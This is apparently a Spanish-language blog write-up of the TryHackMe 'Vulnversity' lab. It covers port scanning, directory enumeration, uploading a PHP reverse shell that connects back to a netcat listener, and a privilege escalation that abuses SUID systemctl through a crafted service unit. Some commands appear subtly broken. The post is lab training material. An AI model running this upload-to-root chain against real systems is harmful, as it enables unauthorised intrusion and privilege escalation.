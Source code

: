 ```yaml
---
title: "tryhackme: vulnversity"
share: false
excerpt: "El mejor metodo de aprendizaje es practicando"
share: false
header:
  teaser:  /assets/images/vulnversity/logo.jpeg
  teaser_home_page: true
categories:
  - tryhackme
tags:
  - Nmap
  - Gobuster
  - Burp suite
---
```


### Iniciamos la fase de reconocimiento

Antes de iniciar, verificamos que la maquina este activa

```bash
❯ ping -c 1 10.10.249.39
PING 10.10.249.39 (10.10.249.39) 56(84) bytes of data.
64 bytes from 10.10.249.39: icmp_seq=1 ttl=63 time=1085 ms

--- 10.10.249.39 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1085.220/1085.220/1085.220/0.000 ms
```

- Enviamos un ping y recivimos una respuesta, esta activa la maquinal

Comprovamos que *OS* tiene la maquia antes de iniciar

```bash
❯ wichSystem.py 10.10.249.39

10.10.249.39 (ttl -> 63): Linux
```


### Reconnaissance 

Iniciamos haciendo un primer escaneo con _nmap_

```bash
>sudo nmap --open -p- --min-rate 5000 -sS -Pn -n 10.10.249.39 -oG allPorts
```

> Scan the box, how many ports are open?
> 6

Vemos que tiene 6 puertos abiertos, ahora a ver que servicios estan corriendo en cada uno

```bash
> extractPorts allPorts
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 10.10.249.39
   5   │     [*] Open ports: 21,22,139,445,3128,3333
   6   │ 
   7   │ [*] Ports copied to clipboard
```


> What version of the squid proxy is running on the machine?
> 3128/tcp open  http-proxy  Squid http proxy 3.5.12


```bash
❯ nmap -sV -sC -p21,22,139,445,3128,3333 10.10.249.39 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-10 01:29 -05
Nmap scan report for 10.10.249.39
Host is up (0.17s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2021-11-10T01:30:09-05:00
|_clock-skew: mean: 1h39m59s, deviation: 2h53m12s, median: -1s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-11-10T06:30:09
|_  start_date: N/A
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.84 seconds
```
(Vamos respondiendo las preguntas de la maquina)
> How many ports will nmap scan if the flag -p-400 was used?
> 400

> Using the nmap flag -n what will it not resolve?
> DNS

> What is the most likely operating system this machine is running?
> Ubuntu

> What port is the web server running on?
> 3333 


### Locating directories using GoBuster 

En esta fase utilizaremos Gobuster para ver posibles _urls_ existentes

> What is the directory that has an upload form page?
>  /internal/


```bash
> gobuster dir -u http://10.10.1.188:3333 -w /usr/share/wordlists/dirb/common.txt -o gobuster.txt

===============================================================
2021/11/10 09:37:40 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 292]
/.htpasswd            (Status: 403) [Size: 297]
/.htaccess            (Status: 403) [Size: 297]
/css                  (Status: 301) [Size: 315] [--> http://10.10.1.188:3333/css/]
/fonts                (Status: 301) [Size: 317] [--> http://10.10.1.188:3333/fonts/]
/images               (Status: 301) [Size: 318] [--> http://10.10.1.188:3333/images/]
/index.html           (Status: 200) [Size: 33014]                                    
/internal             (Status: 301) [Size: 320] [--> http://10.10.1.188:3333/internal/]
/js                   (Status: 301) [Size: 314] [--> http://10.10.1.188:3333/js/]      
/server-status        (Status: 403) [Size: 301]                                        
                                                                                       
===============================================================
2021/11/10 09:39:13 Finished
===============================================================
```
entramos en la ruta que encontramos con el anterior escaneo _http://10.10.1.188:3333/internal/_ y encontramos que podemos subir
un archivo en la maquina, probaremos obtener una _shell_ mediante php

para ello, modificaremos [esta](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) _shell_ de php

[cargar shell](/assets/images/vulnversity/server.png)

### Compromise the webserver 

En esta parte podemos hacerlo de varios metodos, pero seguiremos la maquina y utilizaremos *burp suite*


> Run this attack, what extension is allowed?
> .phtml

[shell en el servidor](/assets/images/vulnversity/shell.png)

ponemos nuestra maquina en escucha

```bash
❯ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.9.0.237] from (UNKNOWN) [10.10.1.188] 57880
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 09:55:03 up 39 min,  0 users,  load average: 0.00, 0.00, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

- Estamos dentro de la maquina, ahora a buscar la flag 1


> What is the name of the user who manages the webserver?
> bill

```bash
$ cat user.txt
8xx7x92xbexax6xa22x63x6x00xcfxexb
```

> What is the user flag?
> 8xdx99xxxfexaxadxxa6x36x1x0xcxcxxb

### Privilege Escalation 

la maquina nos da una ayuda, utilidar el comando *find / -user root -perm -4000 -exec ls -ldb {} \;*, sin embargo,
tambien es valido utilizar *find / -perm -u=s -type f 2>/dev/null* 

```bash
$ find / -perm -u=s -type f 2>/dev/null               
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```

> On the system, search for all SUID files. What file stands out?
> /bin/systemctl

Podemos observar que entre los binarios se encuentra systemctl, por lo cual vamos a utilizarlo para obtener privilegios root, con 
los siguientes comandos.

1. Primero, creamos el archivo para la conexion de shell inversa
1. creamos un servicio y lo ejecutamos con _systemcl_

```bash
$ TF=$(mktemp).service
$ echo '[Service]
> ExecStart=/bin/sh -c "cp /root/root.txt > /tmp/output.txt"
> WantedBy=multi-user.target' > $TF

/bin/systemctl link $TF
/bin/systemctl enable-now $TF
```
> Become root and get the last flag (/root/root.txt)
>

